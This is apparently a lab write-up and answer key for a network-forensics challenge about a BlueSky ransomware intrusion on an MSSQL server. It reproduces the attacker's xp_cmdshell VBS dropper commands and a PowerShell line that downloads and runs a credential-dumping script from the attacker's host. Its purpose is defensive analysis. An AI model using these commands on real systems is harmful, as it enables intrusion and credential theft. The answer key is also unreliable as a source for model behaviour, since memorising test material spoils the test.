#cyberdefender-medium #network-forensics #finished #reviewed
# Scenario
A high-profile corporation that manages critical data and services across diverse industries has reported a significant security incident. Recently, their network has been impacted by a suspected ransomware attack. Key files have been encrypted, causing disruptions and raising concerns about potential data compromise. Early signs point to the involvement of a sophisticated threat actor. Your task is to analyze the evidence provided to uncover the attacker’s methods, assess the extent of the breach, and aid in containing the threat to restore the network’s integrity.

# Investigation
We are provided two files, a `pcap` network capture and a `evtx` windows event log file.
Let's start with the `pcap` and look at the statistics to get the outline of what was captured.

## Statistics
Looking at `Statistics > Protocol Hierarchy` in wireshark, we will see that majority of the traffic captured is `TCP`.



*Protocol Hierarchy Statistics*

Notably, `6.0%` of the captured packets are tabular data streams and `12.8%` of all bytes are attributed to it. This means that someone was talking to an SQL server. We can probably look for packets like `SQL Batch` to see if any SQL queries were ran.

Let's look at `Statistics > Endpoints` to see which IPs are the most talkative in this capture.



*Endpoints Statistics*

There are two IPs of interest here which are `87.96.21.81` and `87.96.21.84`.
These two IPs generated essentially all the traffic in the capture.

Let's check what conversations were captured to see if we get more information about these IPs. To do that we just navigate to `Statistics > Conversations`.



*Conversations Statistics*

We can see that `87.96.21.81` talked at length with `87.96.21.84` and that the number of packets it received is nearly double the packets it transmitted.

More interestingly, if we go to the `TCP` tab which shows the `TCP` sessions captured, we will see that `87.96.21.84` is behaving suspiciously.
It is sending a single packet to `87.96.21.81` on different ports in quick succession with almost all of the sessions having a duration of ~`0.0000s`.
This is highly characteristic of a port scan and should be investigated.



*TCP Sessions Statistics*

We can also see this as a sharp spike in traffic in `Statistic > I/O Graphs`.



*I/O Graph Spike in Traffic*

There is also a spike of `TCP` errors during the same time frame as well which if this is truly a port scanning attempt, would have probably been caused by the packets with `RST` and `ACK` flags set.
Given the captured `TCP` Sessions, spike in traffic and in `TCP` errors, it is very likely that `87.96.21.84` is scanning `87.96.21.81`.

We now can make a few assertions and validate them by analysing the actual network packet.
- `87.96.21.84` is likely a malicious threat actor
- `87.96.21.81` is likely the target  server
- A port scanning attempt may have been carried out
- Tabular Data Stream packets were captured, the target server is likely hosting some SQL server that the threat actor interacted with

## Port Scanning
The first thing I want to validate is if there was actually a port scan in the first place.
We can get started by just clicking at the highest peak in the I/O Graphs since it is likely that the traffic would have spiked during a scan.
This lands us in the following section,



*Packets in Spike of Traffic*

If we click into any packet and set the `Destination Port` and `Source Port` as a column, it becomes abundantly clear that `87.96.21.84` is scanning `87.96.21.81`.
Multiple packets in quick succession all with just `SYN` flag set being sent to different ports.
We can make this even clearer by just filtering by

```
ip.src == 87.96.21.84 && tcp.flags.syn == 1
```

which shows the following.



*Threat actor scanning target*

Another thing to note is that when a port is closed the target will respond with a packet with `RST` and `ACK` flags set.
This traffic is abundant in this capture across multiple ports and we can verify it through

```
tcp.flags.reset == 1 && tcp.flags.ack == 1 && ip.addr == 87.96.21.84
```

Which greets us with a sea of red as shown below,



*Closed Port responses*

Now we know for sure that `87.96.21.84` has conducted a port scan we need to identify what open ports did he find.
We can find this by just filtering for packets with `SYN` and `ACK` flags set since an open port will respond with this upon receiving the `SYN` packet.

```
ip.addr==87.96.21.84 && tcp.flags.syn == 1 && tcp.flags.ack ==1
```

Giving us,



*Exposed Ports*

The threat actor found the ports
- 445 : `SMB` over `TCP`
- 139 : `NetBIOS Session Service`
- 135 : `MSRPC` (Microsoft `RPC` Endpoint Mapper)
- 5357 : `WSDAPI` (Web Services for Devices API)
- 1433 : `MSSQL` (Microsoft SQL Server)

Out of all of these ports, the one we want to chase down first is port `1433` because it corresponds to Microsoft SQL Server which ties in to the Tabular Data Stream packets we identified earlier.

## Initial Access & Configuration Tampering

As discussed earlier the lead we want to chase first is traffic on port `1433` because its maps to `MSSQL`.
Filtering for just `TCP` port 1433, we get the following,



Looking at the traffic, we will immediately notice the `TLS` handshake. This can be problematic for us analyst because that would mean the actual application data is encrypted. However, if we scroll through the packets we can see that this is repeated multiple times and eventually starts an unencrypted session.



*Repeating short sessions with TLS*

We will see a `TDS7 pre-login message` that is not followed by any `TLS`.
The subsequent packets are all in plain text and one of them is a `TDS7 login` packet.



*Unencrypted Session*

We can follow this `TCP` stream to isolate the packets for analysis.
Clicking into the `TDS7 login` packet reveals the values of its fields which are all in plaintext.



*Login packet field values*

This exposes a username `sa` and password `cyb3rd3f3nd3r$`.
Notably, `sa` means system administrator and is the default, built-in super user account in `MSSQL`.
The threat actor is trying to gain administrative access across the entire database.
Looking at the `Response` packet that comes after, the threat actor is successful in logging in.

>[!NOTE]
>While `sa` is an acronym for system administrator, the context of the account matters. The system administrator here is purely for the Microsoft SQL Server. This means that that account has unfettered administrative access across the entire database engine/instance. This is NOT the same as the Windows local Administrators group.




*Successful login*

This represents a severe misconfiguration vulnerability where
- Encryption is not enforced, a client is allowed to communicate over unencrypted channels
- The built-in super user account is left enabled
- The password used for the account is weak, just uses simple substitutions for a dictionary word

After the successful login, the actor issues an SQL query.



*Query Executed*

This query changes server-wide configuration options to enable `show advanced options` and `xp_cmdshell` through `sp_configure`.
`show advanced options` must be enabled first before being able to enable `xp_cmdshell`.
This a common attack chain where the actor is seeking to obtain a windows shell to execute arbitrary OS commands.
Looking at the response packet after the command was issued, will tell us that the reconfiguration was a success.



*Successful ReturnStatus for Command*

Therefore, the actor gained initial access to the server by logging into the built-in `sa` account using the password `cyb3rd3f3nd3r$`.
After successfully logging in, the actor tampered with server wide configurations to enable the use of `xp_cmdshell` through `sp_configure`.

The method utilised by the actor to obtain the credentials for initial access is currently not clear with just the network capture, especially since `TLS` prevents us from looking into the packets.

However, given the pattern of repeated short attempts to the server, it is pointing to a brute force or dictionary attack on the user `sa`.
We still have one more artifact to analyse which is the windows event logs file.
This may helps us in this regard but for now we will just focus on reconstructing what we can with the network capture.

## Execution
At this point we already know the actor has access to the system as well as a shell.
This shell obtained through `xp_cmdshell` may or may not be privileged as it runs under the privileges of the account that runs the `MSSQL` service itself.
This could be anywhere between complete administrative privileges to a low level service account used for `MSSQL`.
For now, we will just assume the account is unprivileged as we do not have additional context or evidence at this stage to assume otherwise.

After the initial access and configuration tampering, the actor will execute a series of SQL queries which are visible in the network capture.



*Series of SQL Queries*

The number of queries executed as well as the quirks Wireshark has with viewing the content in packets makes analysing the queries excruciating. Thankfully, NetworkMiner handles this much better.
If we open this `pcap` in NetworkMiner and navigate to the `Parameters` tab we will see every single SQL query executed in a nice view.



*Queries executed*

However, since each query is too large it will not display the entire line in 1 row. The main reason why we want it viewed this way is because we want to see the shape of what the actor is trying to do. This is hard to do in Wireshark even if we follow the `TCP` stream because it is presented as a massive blob of text.

If we copy the value of the first 3 `xp_cmdshell` commands executed and truncate the long strings, we will get the following values

```
EXEC master..xp_cmdshell 'echo TVqQAAMAAAAEAAAA//8AAL[...]>>%TEMP%\SBjzH.b64'
EXEC master..xp_cmdshell 'echo AAAAAAAAAAAAAAAAAAAAAA[...]>>%TEMP%\SBjzH.b64'
EXEC master..xp_cmdshell 'echo AAAAAAAAAAAAAAAAAAAAAA[...]>>%TEMP%\SBjzH.b64'
```

Then if we do the same for the last 3, we will see the following,

```
EXEC master..xp_cmdshell 'echo AAAAAAAAAAAAAAAAAAAAA[...]ccmVsZWFzZVxidWlsZC0yLjIuMTRcc3VwcG9ydFxSZWxlYXNlXGFiLnBkYgA=>>%TEMP%\SBjzH.b64 & echo Set fs = CreateObject("Scripting.FileSystemObject") >>%TEMP%\Gjmwb.vbs & echo Set file = fs.GetFile("%TEMP%\SBjzH.b64") >>%TEMP%\Gjmwb.vbs & echo If file.Size Then >>%TEMP%\Gjmwb.vbs & echo Set fd = fs.OpenTextFile("%TEMP%\SBjzH.b64", 1) >>%TEMP%\Gjmwb.vbs & echo data = fd.ReadAll >>%TEMP%\Gjmwb.vbs & echo data = Replace(data, vbCrLf, "") >>%TEMP%\Gjmwb.vbs & echo data = base64_decode(data) >>%TEMP%\Gjmwb.vbs & echo fd.Close >>%TEMP%\Gjmwb.vbs'

EXEC master..xp_cmdshell 'echo Set ofs = CreateObject("Scripting.FileSystemObject").OpenTextFile("%TEMP%\LkUYP.exe", 2, True) >>%TEMP%\Gjmwb.vbs & echo ofs.Write data >>%TEMP%\Gjmwb.vbs & echo ofs.close >>%TEMP%\Gjmwb.vbs & echo Set shell = CreateObject("Wscript.Shell") >>%TEMP%\Gjmwb.vbs & echo shell.run "%TEMP%\LkUYP.exe", 0, false >>%TEMP%\Gjmwb.vbs & echo Else >>%TEMP%\Gjmwb.vbs & echo Wscript.Echo "The file is empty." >>%TEMP%\Gjmwb.vbs & echo End If >>%TEMP%\Gjmwb.vbs & echo Function base64_decode(byVal strIn) >>%TEMP%\Gjmwb.vbs & echo Dim w1, w2, w3, w4, n, strOut >>%TEMP%\Gjmwb.vbs & echo For n = 1 To Len(strIn) Step 4 >>%TEMP%\Gjmwb.vbs & echo w1 = mimedecode(Mid(strIn, n, 1)) >>%TEMP%\Gjmwb.vbs & echo w2 = mimedecode(Mid(strIn, n + 1, 1)) >>%TEMP%\Gjmwb.vbs & echo w3 = mimedecode(Mid(strIn, n + 2, 1)) >>%TEMP%\Gjmwb.vbs & echo w4 = mimedecode(Mid(strIn, n + 3, 1)) >>%TEMP%\Gjmwb.vbs & echo If Not w2 Then _ >>%TEMP%\Gjmwb.vbs & echo strOut = strOut + Chr(((w1 * 4 + Int(w2 / 16)) And 255)) >>%TEMP%\Gjmwb.vbs & echo If  Not w3 Then _ >>%TEMP%\Gjmwb.vbs & echo strOut = strOut + Chr(((w2 * 16 + Int(w3 / 4)) And 255)) >>%TEMP%\Gjmwb.vbs & echo If Not w4 Then _ >>%TEMP%\Gjmwb.vbs & echo strOut = strOut + Chr(((w3 * 64 + w4) And 255)) >>%TEMP%\Gjmwb.vbs & echo Next >>%TEMP%\Gjmwb.vbs & echo base64_decode = strOut >>%TEMP%\Gjmwb.vbs & echo End Function >>%TEMP%\Gjmwb.vbs & echo Function mimedecode(byVal strIn) >>%TEMP%\Gjmwb.vbs'

EXEC master..xp_cmdshell 'echo Base64Chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/" >>%TEMP%\Gjmwb.vbs & echo If Len(strIn) = 0 Then >>%TEMP%\Gjmwb.vbs & echo mimedecode = -1 : Exit Function >>%TEMP%\Gjmwb.vbs & echo Else >>%TEMP%\Gjmwb.vbs & echo mimedecode = InStr(Base64Chars, strIn) - 1 >>%TEMP%\Gjmwb.vbs & echo End If >>%TEMP%\Gjmwb.vbs & echo End Function >>%TEMP%\Gjmwb.vbs & cscript //nologo %TEMP%\Gjmwb.vbs'
```

This gives us a full picture and it tells us the threat actor is first, transmitting the base64 encoded bytes of a payload through `xp_cmdshell` and writing them into a file at path `%TEMP%\SBjzH.b64`. Then he creates a `vbs` script at `%TEMP%\Gjmwb.vbs` which he runs using cscript.

To understand the subsequent `vbs` file that was created, let's isolate just the code and format it.
To do that we first just copy the parameter values of the last 3 lines and write it into a file.



*Copy last 3 queries parameter values*

Then we use a series of `sed` commands to just clean up the output.

```bash
sed -i 's/ & /\n/g; s/echo //g;' dirty.vbs   #Change & to a linebreak and remove echo
sed -i -E 's/>>.*Gjmwb\\.vbs.*$//;s/^EXEC master..xp_cmdshell.{0,2}//;s/.*>>.*SBjzH.b64$//' dirty.vbs  #Remove append to file, remove EXEC prefixes and remove append bytes to SBjzH.b64
sed -i 's/^cscript.*$//;/^$/d' dirty.vbs && cat dirty.vbs #remove the final line that calls cscript, remove empty lines and output the final clean file
```

This gets us the following,



*Formatted Code*

The code reveals
- Data is extracted from the file containing the transmitted bytes
- Data is decoded using a base64 decode function implemented by actor
- Extracted data is written into an executable file `LkUYP.exe`
- Wscript shell is instantiated and used to run the newly created executable

We can also verify that the transmitted bytes is actually bytes of an executable by going to the very first `EXEC xp_cmdshell` command and base64 decoding it.
Which shows the first two bytes of the transmitted payload is `MZ`, the magic bytes for a dos executable.



*DOS executable magic bytes*

Therefore the actor logged into a privileged account on the database instance, transferred a malicious executable and ran it on the machine.
We can extract the base64 encoded bytes to reconstruct the executable and reverse engineer how it works but we will not do that here as our main focus for now is network forensics.

## Post Exploitation
The frame number of the last `SQL batch` packet is 3149.
We can verify this by filtering for `tds.type==1` and looking at the last entry.

Filtering for `frame.number>=3149 && TCP` will show us the traffic captured after `LkUYP.exe` has ran.
We will see that the target server connects back to the threat actor on port 443 and completes a TCP handshake.



*TCP Traffic captured after frame 3149*

Inspecting the packets after the TCP handshake, we will find majority of it looks like raw bytes.



*Data in TCP Stream*

Furthermore, the length of most packets being almost the standard MTU implies that the actor is transmitting something large in this session and not issuing just simple commands.
The immediate thought goes to executable and in fact, in frame `3166` we will see the reconstructed segment contains the magic bytes `MZ` and the text `This program cannot be run in DOS mode`.



*DOS Executable being transmitted*

We will also find some packets where parts of the TCP stream have human readable data but these look like the names of imports or linked libraries for whatever is being transmitted and is not that useful when viewed in isolation.

However, what we do know is that this session is mostly a one-directional blob transfer because most of the packets lengths are nearing the standard MTU and we have identified the magic bytes `MZ` in the TCP stream. Furthermore, the port used is `443` but no TLS
handshake was carried out and the traffic captured is not aligned with normal `HTTPS` traffic.

This is suspicious and while we cannot determine the purpose of the transmitted executable from network forensics alone, we can make some best guesses on what it is given all we know.

Our best guess to what this is, given all we have seen so far, is that the executable downloaded in the `Execution` section is actually a stager and it initiated the connection back to the actor. Upon successfully phoning home, it then pulls down the full featured payload that would allow the actor to further his attack on the target.

Again, these are best guesses guided by behavioural analysis. Truly validating these claims would require extracting the executables and either performing the reverse engineering ourselves or finding information about them online.

## C2 Traffic & Files
After the network traffic captured in `Post Exploitation`, the target phoned home again to the actor this time using HTTP.
Unlike, the previous section, the data retrieved is in plaintext so the analysis in this section is easier.

Filtering with `http && ip.src==87.96.21.81` we can see all the HTTP requests made by the target.



*HTTP requests made by target*

The target retrieved multiple powershell scripts, a text file named `extracted_hosts.txt` and an executable named `javaw.exe`.
We can dump these files out using Wireshark by navigating to `File > Export Objects > HTTP > Save All`.

Let's first look at the powershell scripts the actor retrieved using HTTP. He retrieved the following powershell scripts in order
1. `checking.ps1`
2. `del.ps1`
3. `ichigo-lite.ps1`
4. `Invoke-PowerDump.ps1`
5. `Invoke-SMBExec.ps1`

Let's focus our analysis on `checking.ps1`, `del.ps1` and `ichigo-lite.ps1`.
The scripts `Invoke-PowerDump.ps1` and `Invoke-SMBExec.ps1` are generic open source post exploitation scripts being used by the actor. A quick look into these scripts will tell us that the `Invoke-PowerDump.ps1` is used to dump hashes from the local system and requires admin access whereas `Invoke-SMBExec.ps1` is used to perform `SMBExec` style command execution with `NTLMv2` pass the hash authentication.
### Powershell Script: `checking.ps1`
At the very top of this script are some defined variables.



*Defined script variables*

`$priv` checks if the current SID matches `S-1-5-32-544` which is the SID of `Builtin\Administrators`.
`$osver` checks the current OS version.
`$WarningPreference` and `$ErrorActionPreference` suppresses powershell errors so no error dialogs or console dialogs appear.
`[System.Net.ServicePointManager]::ServerCertificateValidationCallback = { $true }` hard codes the call back to always return `True` which effectively disables TLS/SSL certificated validation completely.
`$url` hard codes the C2 URL which is just a HTTP server running on the actor IP.

This script also has the following defined function names and summary of their functionality,

| Script Name    | Functionality                                                                                                                                                                                                                                                                                                        |
| :------------- | :------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Test-URL       | Checks if target is able to reach C2 URL which is hard coded into the file                                                                                                                                                                                                                                           |
| Test-ScriptURL | Checks if target is able to reach the URL of a script resource on the C2                                                                                                                                                                                                                                             |
| StopAV         | Impairs defences by changing registry keys and disabling services                                                                                                                                                                                                                                                    |
| CleanerEtc     | Downloads `del.ps1`, creates a new scheduled task that runs every `4 HOURS` named `\Microsoft\Windows\MUI\LPUpdate` running as `SYSTEM` to run the downloaded`del.ps1`. It also downloads and immediately executes `ichigo-lite.ps1`.                                                                                |
| CleanerNoPriv  | A non-privileged version of `CleanerEtc` where it instead creates a new scheduled task named `Optimize Start Menu Cache Files-S-3-5-21-2236678155-433529325-1142214968-1237` that runs every `3 HOURS`. This task just executes `del.ps1` and runs its with the same privilege as the account that created the task. |

Let's have a closer look at the `StopAV` function which impairs the host defences.



*Code of `StopAV`*

This code impairs the host defences by doing the following
- Disables real time monitoring on Microsoft defender
- Adds an exclusion path for
	- `C:\ProgramData\Oracle`
	- `C:\ProgramData\Oracle\Java`
	- `C:\Windows`
- Edits registry keys in path `HKLM:\SOFTWARE\Microsoft\Windows Defender` and edits the following keys to be set to value `1`
	- `DisableAntiSpyware`
	- `DisableRoutinelyTakingAction`
	- `DisableRealtimeMonitoring`
	- `SubmitSamplesConsent`
	- `SpynetReporting`
- Disables `WinDefend` service
- Disables `WinDefend` service launching on start up
Every powershell action also has the argument `-ErrorAction SilentlyContinue` which suppresses any errors, ensuring the whole operation completes silently in the background.

At the bottom of the script we will see code that calls these defined functions, as shown below.



*Main code of `checking.ps1`*

This code does the following,
- Hard codes `$scriptUrl` to be `http://87.96.21.84/del.ps1`
- Checks if the target is able to reach both the C2 URL and the script URL on the C2
	- Checks if the script is being ran in a privileged context then branches depending on result
		- If privileged: Run `CleanerEtc`, decodes a hard coded base64 string that just resolves to `whoami`, runs `whoami` in powershell. Finally writes to console screen `Privilege level: SYSTEM`.
		- If not privileged: Run `CleanerNoPriv` and then print to console screen `Privilege level: User`.
- Checks if running in privileged context
	- If privileged: run `StopAV`, Sleep for 1 second then run `CleanerEtc`
	- If not privileged: run `CleanerNoPriv`

Therefore, this script performs reconnaissance/staging by checking if it is running in a privileged context and if the host can contact and retrieve resources from the C2. It also establishes persistence through scheduled tasks and creates different tasks depending on the context it is running in. Finally, it impairs defences by editing registry keys, disabling `WinDefender` and by adding exclusions paths to Microsoft Defender for installation paths of Oracle Java programs and the Windows directory.

### Powershell script: `del.ps1`
The code for this script is relatively simple, it simply defines a list of common analysis tools like `Procmon` and `ProcessHacker` then kills them. This is a rudimentary attempt at evading analysis.



*Code of `del.ps1`*

### Powershell script: `ichigo-lite.ps1`
This script is the most interesting because it contains the code that actually launches the main payload.

At the very start of the script it defines a few variables and invokes a few expressions.



*Script variables of `ichigo-lite.ps1`*

The script starts off by downloading two other powershell scripts from the C2 server which are `Invoke-PowerDump.ps1` and `Invoke-SMBExec.ps1`. We identified this earlier as additional post exploitation tools being used by the attacker.

It then pulls another text file from the C2 server `extracted_hosts.txt`, which contains a list of Host IPs.
After pulling the file it extracts the contents of the file into `$hostsContent`.



*Contents of `extracted_hosts.txt`*

After which it base64 decodes two encoded commands which when decoded resolve to the following.

```powershell
(New-Object System.Net.WebClient).DownloadString('http://87.96.21.84/Invoke-PowerDump.ps1') | Invoke-Expression

Invoke-PowerDump | Out-File -FilePath "C:\ProgramData\hashes.txt"
```

The first command is because it seems to initiate another download for `Invoke-PowerDump.ps1`.
The second command calls `Invoke-PowerDump` and creates a new file `C:\ProgramData\hashes.txt` to receive the output.
This is really useful to us analyst because it tells us on the system where we can find the exposed hashes.

The script then defines 2 new arrays `$usernames` and `$passwordHashes`.
It also loads the content of `C:\ProgramData\hashes.txt` into `$hashesContent`.

With all that setup it now continues into the main logic of the script as shown below,



*Main logic of `ichigo-lite.ps1`*

The first conditional checks if `$hashContent` is not None and then iterates through each line in the data.
For each line it uses a regex pattern to extract the `username`,`passwordHash` before appending them to the variables we saw in the setup of this script. This results in arrays `$username` and `$passwordHash` being populated with the output of `Invoke-PowerDump` if it successfully runs.

The second conditional checks if the arrays `$username` and `$passwordHash` have a count greater than 0.
If it does it iterates through each of the host IPs in `extracted_hosts.txt` and invokes `Invoke-SMBExec` on them.

These two conditionals and loops shows that the actor is trying to use the extracted credentials from the target
machine to gain access to SMB shares on other extracted target IPs.

A function `Download-FileFromURL` is defined and it is just a helper function that downloads a file from a URL into a specified folder.

After this, the script then downloads another executable `javaw.exe` from the C2.
The final conditional checks if the file was successfully downloaded then it runs the executable silently in the background.

The command to start the process is commented out which means it will not automatically run but the commands purpose is clear.

### Executable: `javaw.exe`
As stated earlier, we will avoid manual reverse engineering in this write up.
Let's instead use OSINT to determine the purpose of this file.

Let's grab the SHA256 hash of this file.



*Getting SHA256 hash of file*

Now let's pass this hash to VirusTotal to see if any vendors have flagged this.
A [report](https://www.virustotal.com/gui/file/3e035f2d7d30869ce53171ef5a0f761bfb9c14d94d9fe6da385e20b8d96dc2fb/detection) is generated and it states this file is a known ransomware executable with high confidence.



*VirusTotal Report*

If we go under `Community` we can also find the [executive report](https://www.joesandbox.com/analysis/1891032/0/executive) on `joesandbox` which states that this malware name is `BlueSky` and classifies it as `Ransomware`.



*Executive Report from JOESandbox*

Scrolling down in this executive report we will see that the ransomware drops a note named `# DECRYPT FILES BLUESKY #` and also has capabilities to exploit SMB.



Therefore, `javaw.exe` is a ransomware executable of malware family `BlueSky`.

### Summary of File Analysis
The analysis of all the files paint a clear story. The actor aims to impair the defences of the target machine through `checking.ps1` and deploy a ransomware using `ichigo-lite.ps1` on both the target machine and SMB shares hosted on other endpoints. The list of targeted endpoints are defined in a text file retrieved from the C2, `extracted_hosts.txt`. He also maintains persistence through the creation of scheduled tasks which change depending on the privilege level of the compromised user. Efforts to evade analysis were also made through the `del.ps1` script that terminates the processes of common analysis tools that are running on the system.

## Windows Event Log
We have only investigated the network capture and related files.
Let's now look at the windows event log file that was bundled with the network capture.
Opening the logs, we see two interesting sources that can get us started.
These sources are `PowerShell(PowerShell)` and `MSSQLSERVER`.
### Windows Event Log: MSSQLSERVER
Let's filter for `Source` as `MSSQLSERVER` and sort by `Date and Time` descending.



*Filtered Log View*

The first thing we will see the Event ID 18456 being repeated multiple times in a very short time window.
Searching for this Event ID leads us to this [page](https://learn.microsoft.com/en-us/sql/relational-databases/errors-events/mssqlserver-18456-database-engine-error?view=sql-server-ver17) on MSDN that tells us that this log is an error message when a connection attempt is rejected because of an authentication failure.

Clicking into the general view of any of the logs will show that `87.96.21.84` failed to authenticate on the `MSSQL Server` with username `sa`.



Furthermore, in the log entries, we will also see Event ID 18454.
This Event ID corresponds to a successful login and only shows up after a large number of failed authentication attempts were made.

Therefore, putting it all together, the actor, `87.96.21.84`, was trying to hack into the `sa` account.
This also explains why there were so many repeated short encrypted TCP sessions being initiated by the threat actor to the `MSSQL` server.



*Actor brute forcing password*

Unfortunately, there are no more logs of interest after the attacker successfully authenticated with the server. The only logs following his authentication are just telling us that he successfully enabled `show advanced options` and `xp_cmdshell`. These do not tell us anything new so let's try looking at the powershell logs now.
### Windows Event Log: PowerShell(PowerShell)
Let's filter for `Source` as `PowerShell (PowerShell)` and sort by descending `Date and Time` to view the most recent events first. Let's further filter for just Event ID 400 which tells us how and when powershell was invoked.



*Filtered Log View*

The first entry is interesting because the `HostName` is `MSFConsole` whereas the `HostApplication` is `winlogon.exe`. This means that an `MSFConsole` payload was injected into `winlogon.exe`.



*Suspicious Log*

This means that the threat actor managed to achieve `SYSTEM` level access because `winlogon.exe` always runs as `NT AUTHORITY\SYSTEM`. However, for the actor to be able to do this, he must have local administrator access or `SYSTEM` access already.
This is because without `SeDebugPrivilege` , a privilege trivially available for `SYSTEM` and can be enabled on local administrators, the actor cannot open a handle to any process regardless of owner.

Therefore, we now know that the actor already had some form of privileged access by this point in time.
Whether it is local administrator access or `SYSTEM` access cannot be concretely concluded.
Digging into this further and trying to determine how the actor achieved high privileges points towards the use of `JuicyPotato` as detailed in this [report](https://unit42.paloaltonetworks.com/bluesky-ransomware/).
However, as it stands, we have not found anything that could allow us to confidently conclude the method in which the actor achieved the necessary privileges. We may be able to continue chasing this by extracting the executable transmitted using `xp_cmdshell` but for now, we will just state this as a limitation of the write up.

# Incident Summary
The analysis of the network capture as well as the windows event log file reveals a complete attack chain.
The threat actor, `87.96.21.84`, began with a port scan against the target, `87.96.21.81`, discovering an exposed `MSSQL` instance on port `1433`. The windows event log confirms that the actor then used a sustained brute-force/dictionary attack against the built-in `sa` account which succeeded and exposed the weak password `cyb3rd3f3nd3r$`.

After obtaining access to the `sa` account, the actor changed database instance wide configurations through `sp_configure` to enable the use of `xp_cmdshell`. The actor then used `xp_cmdshell` to transmit base64 encoded executable bytes and create and execute malicious `vbs` scripts on the target.

The mechanism in which the actor obtained privilege escalation is not concretely known through our analysis but the windows event logs revealed that the actor must have had either local administrator or `SYSTEM` privileges on the target. This is because the windows event logs show an `MSFConsole` payload being injected into `winlogon.exe` which requires `SeDebugPrivilege`.

After exploitation, the target server then retrieved multiple powershell scripts, a text file and an executable from the actor's C2 server. The URLs of which are `http://87.96.21.84/<name_of_file>`. The retrieved powershell scripts checks if the target is able to reach the actor's C2 server, impairs defences, dumps OS credentials, uses dumped credentials to attack other targeted IPs and deploys a malicious executable.

This malicious executable is the crux of the whole attack and we have identified it as a known ransomware named "Blue Sky". It encrypts the target host and drops a ransomware note with name `# DECRYPT FILES BLUESKY #`. OSINT also reveals that this family of ransomware has capabilities to exploit SMB-based lateral movement which enables network-wide deployment.
# Questions
## Q1 — Attacker IP
>Knowing the source IP of the attack allows security teams to respond to potential threats quickly. Can you identify the source IP responsible for potential port scanning activity?

As established in the investigation, the IP conducting the port scan is `87.96.21.84`.

**Answer:** `87.96.21.84`

---

## Q2 — Targeted Account Username
>During the investigation, it's essential to determine the account targeted by the attacker. Can you identify the targeted account username?

As established in the investigation, the attacker targeted the built-in `sa` account on the MSSQL server.

**Answer:** `sa`

---

## Q3 — Exposed Password
>We need to determine if the attacker succeeded in gaining access. Can you provide the correct password discovered by the attacker?

As established in the investigation, the password exposed for the `sa` account is `cyb3rd3f3nd3r$`.

**Answer:** `cyb3rd3f3nd3r$`

---

## Q4 — Configuration Tampering
>Attackers often change some settings to facilitate lateral movement within a network. What setting did the attacker enable to control the target host further and execute further commands?

As established in the investigation, the attacker used `sp_configure` to enable `xp_cmdshell`.

**Answer:** `xp_cmdshell`

---

## Q5 — Victim Process
>Process injection is often used by attackers to escalate privileges within a system. What process did the attacker inject the C2 into to gain administrative privileges?

As established in the investigation, the Windows Event Logs show an `MSFConsole` payload injected into `winlogon.exe`.

**Answer:** `winlogon.exe`

---

## Q6 — URL of File Downloaded
>Following privilege escalation, the attacker attempted to download a file. Can you identify the URL of this file downloaded?

As established in the investigation, the first PowerShell script retrieved from the C2 was `checking.ps1`, giving the URL `http://87.96.21.84/checking.ps1`.

**Answer:** `http://87.96.21.84/checking.ps1`

---

## Q7 — Target SID
>Understanding which group Security Identifier (SID) the malicious script checks to verify the current user's privileges can provide insights into the attacker's intentions. Can you provide the specific Group SID that is being checked?

As established in the investigation, `checking.ps1` checks if the current SID matches `S-1-5-32-544`, the SID of `Builtin\Administrators`.

**Answer:** `S-1-5-32-544`

---

## Q8 — Modified Registry Keys
>Windows Defender plays a critical role in defending against cyber threats. If an attacker disables it, the system becomes more vulnerable to further attacks. What are the registry keys used by the attacker to disable Windows Defender functionalities? Provide them in the same order found.

As established in the investigation, the `StopAV` function edits the following registry keys in order: `DisableAntiSpyware`, `DisableRoutinelyTakingAction`, `DisableRealtimeMonitoring`, `SubmitSamplesConsent`, `SpynetReporting`.

**Answer:** `DisableAntiSpyware,DisableRoutinelyTakingAction,DisableRealtimeMonitoring,SubmitSamplesConsent,SpynetReporting`

---

## Q9 — URL of Second File
>Can you determine the URL of the second file downloaded by the attacker?

As established in the investigation, the second PowerShell script retrieved from the C2 was `del.ps1`, giving the URL `http://87.96.21.84/del.ps1`.

**Answer:** `http://87.96.21.84/del.ps1`

---

## Q10 — Name of Created Task
>Identifying malicious tasks and understanding how they were used for persistence helps in fortifying defenses against future attacks. What's the full name of the task created by the attacker to maintain persistence?

As established in the investigation, the `CleanerEtc` function creates a scheduled task named `\Microsoft\Windows\MUI\LPUpdate` running as `SYSTEM`.

**Answer:** `\Microsoft\Windows\MUI\LPUpdate`

---

## Q11 — MITRE ID of Main Tactic
>Based on your analysis of the second malicious file, What is the MITRE ID of the main tactic the second file tries to accomplish?

The second malicious file is `del.ps1` which we have identified as an effort by the actor to evade analysis.
This can be categorised under stealth and fits the bill for MITRE ID [TA0005](https://attack.mitre.org/tactics/TA0005/).

**Answer:** `TA0005`

---

## Q12 — PowerShell Script Name
>What's the invoked PowerShell script used by the attacker for dumping credentials?

As established in the investigation, `ichigo-lite.ps1` invokes `Invoke-PowerDump.ps1` to dump credentials.

**Answer:** `Invoke-PowerDump.ps1`

---

## Q13 — File of Exposed Credentials
>Understanding which credentials have been compromised is essential for assessing the extent of the data breach. What's the name of the saved text file containing the dumped credentials?

As established in the investigation, the dumped credentials are saved to `hashes.txt`.

**Answer:** `hashes.txt`

---

## Q14 — Targeted Hosts
>Knowing the hosts targeted during the attacker's reconnaissance phase, the security team can prioritize their remediation efforts on these specific hosts. What's the name of the text file containing the discovered hosts?

As established in the investigation, the discovered hosts are stored in `extracted_hosts.txt`.

**Answer:** `extracted_hosts.txt`

---

## Q15 — Name of Ransom Note
>After hash dumping, the attacker attempted to deploy ransomware on the compromised host, spreading it to the rest of the network through previous lateral movement activities using SMB. You’re provided with the ransomware sample for further analysis. By performing behavioral analysis, what’s the name of the ransom note file?

As established in the investigation, the JOESandbox executive report shows the ransomware drops a note named `# DECRYPT FILES BLUESKY #`.

**Answer:** `# DECRYPT FILES BLUESKY #`

---

## Q16 — Ransomware Family
>In some cases, decryption tools are available for specific ransomware families. Identifying the family name can lead to a potential decryption solution. What's the name of this ransomware family?

As established in the investigation, the JOESandbox report identifies the malware family as `BlueSky`.

**Answer:** `BlueSky`

# Completion



I successfully completed BlueSky Ransomware Blue Team Lab at @CyberDefenders!
https://cyberdefenders.org/blueteam-ctf-challenges/achievements/francisvil3213/bluesky-ransomware/
